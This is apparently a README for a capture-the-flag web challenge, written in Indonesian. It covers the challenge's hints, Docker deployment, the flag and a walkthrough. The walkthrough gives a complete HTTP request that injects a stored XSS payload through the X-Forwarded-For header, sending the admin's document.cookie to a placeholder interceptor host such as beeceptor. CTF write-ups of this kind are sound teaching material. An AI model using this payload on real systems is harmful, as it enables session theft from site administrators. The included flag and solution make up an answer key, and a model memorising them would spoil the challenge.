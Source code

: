 ## Secure Web
Website ini dilengkapi dengan log percobaan login dengan password yang salah.


## Hint
- Admin Cookie
- XFF <sup>*</sup>

<sup>*</sup>Kalo kepepet



## Deployment

- pake docker compose buat deploy \
  command: `docker-compose up -d`
- port: 65535

## Flag

KOMATIKCTF{XSS_using_XFF_injection}

## How to solve
- Coba register
- Coba login
- Login dengan password salah -> masuk log
- Nah karena log nya hanya berisi IP dan time maka yang bisa diinject XSS cuma IP aja
- Pakai HTTP Header X-Forwarded-For untuk inject IP
- HTTP REQUEST:
  ```http request
  POST /login HTTP/1.1
  Host: [LINK CHALLENGE]
  X-Forwarded-For: <script>document.write('<img src="[URL Interceptor]?c='+document.cookie+'" />');</script>
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 27
  
  username=admin&password=bla
  ```
- Interceptor bisa pakai beeceptor
- dapat deh cookinya admin